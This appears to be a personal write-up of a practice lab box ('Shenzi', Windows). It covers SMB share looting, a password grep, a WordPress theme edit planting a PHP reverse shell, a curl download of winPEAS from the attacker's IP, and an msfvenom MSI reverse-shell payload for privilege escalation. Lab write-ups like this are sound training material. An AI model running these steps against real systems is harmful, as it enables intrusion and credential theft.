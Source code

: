 # NMAP 

```
sudo nmap -sC -sV 192.168.236.55 -oN nmap-shenzi
```

![[PG/Windows/attachments/Pasted image 20250707003036.png]]

All ports
![[PG/Windows/attachments/Pasted image 20250707003649.png]]

# Web (Port 443)
![[PG/Windows/attachments/Pasted image 20250707003347.png]]


## Feroxbuster
```
feroxbuster -u https://192.168.236.55/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```


# Web (Port 80)

Same thing 
![[PG/Windows/attachments/Pasted image 20250707003527.png]]

```
feroxbuster -u http://192.168.236.55/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt    
```

# FTP 

![[PG/Windows/attachments/Pasted image 20250707003755.png]]

# SMB

```
smbclient -N -L //192.168.236.55
```

![[PG/Windows/attachments/Pasted image 20250707004511.png]]

```
smbclient -N //192.168.236.55/Shenzi
```

Files of interest

![[PG/Windows/attachments/Pasted image 20250707004653.png]]

Get everything with 

```
mget *
```

Grep for passwords in a lot of files 

```
grep -rinE '(password|username|user|pass|key|token|secret|admin|login|credentials)'
```

![[PG/Windows/attachments/Pasted image 20250707005055.png]]

^ Wordpress creds 

Guessing at missing subdirectory bc unsure where wordpress site is 

![[PG/Windows/attachments/Pasted image 20250707005446.png]]
- found it and GREAT date


Login with found creds 
![[PG/Windows/attachments/Pasted image 20250707005556.png]]

Wordpress scan in bg 

```
wpscan --url http://192.168.236.55/shenzi -e ap,at,u --plugins-detection aggressive -t 20
```

Go to theme editor 2020 

![[PG/Windows/attachments/Pasted image 20250707005909.png]]

Select template 

![[PG/Windows/attachments/Pasted image 20250707005928.png]]

Select and remove all the text to replace this with a malicious PHP rev-shell

Use the Ivan Sincek selection from revshell.com

![[PG/Windows/attachments/Pasted image 20250707010220.png]]

Update file and navigate to 404 page 

```
# You can see the sytax here if you have ever Bruteforced a WordPress site.
# Knowing this structure is worthwhile. It will come up again.
# http://$IP/WP-Root-Install/themes/theme-year-name/404.php

http://192.168.236.55/shenzi/themes/twentytwenty/404.php
```

![[PG/Windows/attachments/Pasted image 20250707010530.png]]

Catch rev shell

![[PG/Windows/attachments/Pasted image 20250707010609.png]]

![[PG/Windows/attachments/Pasted image 20250707010738.png]]

```
curl http://192.168.45.152/winPEASx64.exe -o winpeas.exe
```

![[PG/Windows/attachments/Pasted image 20250707011653.png]]

.msi files (Microsoft Software Installer) are automatically installed with Administrative privileges

# Priv Esc with malicious .msi file

Create rev shell payload file 

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR tun0 IP> LPORT=445 -f msi -o shell.msi
```

Set up a new listener (this time on port 445).

Transfer file
![[PG/Windows/attachments/Pasted image 20250707011834.png]]

Execute it 

![[PG/Windows/attachments/Pasted image 20250707011859.png]]

Catch system shell
![[PG/Windows/attachments/Pasted image 20250707012232.png]]

![[PG/Windows/attachments/Pasted image 20250707012342.png]]